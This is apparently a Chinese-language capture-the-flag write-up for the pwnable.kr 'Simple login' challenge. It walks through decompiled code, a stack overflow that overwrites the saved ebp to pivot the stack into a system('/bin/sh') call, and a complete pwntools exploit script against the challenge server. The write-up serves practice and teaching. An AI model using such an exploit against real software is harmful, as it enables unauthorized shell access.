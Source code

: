 # Simple login
```
Can you get authentication from this server?

Download : http://pwnable.kr/bin/login

Running at : nc pwnable.kr 9003
```

这题目看起来只有50pt, 感觉上很简单(

拖进 `ida` `f5`
```
int __cdecl main(int argc, const char **argv, const char **envp)
{
  int v4; // [esp+18h] [ebp-28h]
  char s; // [esp+1Eh] [ebp-22h]
  unsigned int v6; // [esp+3Ch] [ebp-4h]

  memset(&s, 0, 0x1Eu);
  setvbuf(stdout, 0, 2, 0);
  setvbuf(stdin, 0, 1, 0);
  printf("Authenticate : ");
  _isoc99_scanf("%30s", &s);
  memset(&input, 0, 0xCu);
  v4 = 0;
  v6 = Base64Decode((int)&s, &v4);
  if ( v6 > 0xC )
  {
    puts("Wrong Length");
  }
  else
  {
    memcpy(&input, v4, v6);
    if ( auth(v6) == 1 )
      correct();
  }
  return 0;
}

_BOOL4 __cdecl auth(int a1)
{
  char v2; // [esp+14h] [ebp-14h]
  char *s2; // [esp+1Ch] [ebp-Ch]
  int v4; // [esp+20h] [ebp-8h]

  memcpy(&v4, &input, a1);
  s2 = (char *)calc_md5(&v2, 12);
  printf("hash : %s\n", (char)s2);
  return strcmp("f87cd601aa7fedca99018a8be88eda34", s2) == 0;
}

void __noreturn correct()
{
  if ( input == -559038737 )
  {
    puts("Congratulation! you are good!");
    system("/bin/sh");
  }
  exit(0);
}
```

大致逻辑是这样的,输入一串东西,然后拷贝进`.data`节(其中限制大小为0xc),然后进`auth`函数又拷贝进栈,注意，这里有栈溢出.但是只能盖到 `auth` 函数的 `ebp` .

然后我们直接有`system('/bin/sh')`存在，直接让`eip跳过去`就行了
```
gdb-peda$ checksec
CANARY    : ENABLED
FORTIFY   : disabled
NX        : ENABLED
PIE       : disabled
RELRO     : Partial
```
canary这里我感觉检测错误了( 我用的两个函数都没有


函数在回复栈的时候，会执行`leave return`
其实上就是在执行

```
mov esp,ebp
pop ebp
pop eip
```

我们只能覆盖`ebp`，那我们就直接覆盖`auth`的`ebp`,然后`pop ebp`.然后我们在`main`函数返回的时候,`move esp,ebp`,这时我们的`esp`就被控制了,然后我们继续`pop ebp; pop eip`，我们就可以直接控制`eip`到`system`了.

```
from pwn import *
import sys
import base64
context.log_level = 'debug'
elf_s = ELF('./login')

if sys.argv[1] == 'connect':
    bin = remote('pwnable.kr',9003)
else:
    bin = process('./login')

payload = 'a'*4 + p32(0x08049284) + p32(0x0811EB40)
payload = base64.b64encode(payload)
bin.recvuntil(': ')
bin.sendline(payload)
bin.interactive()
```
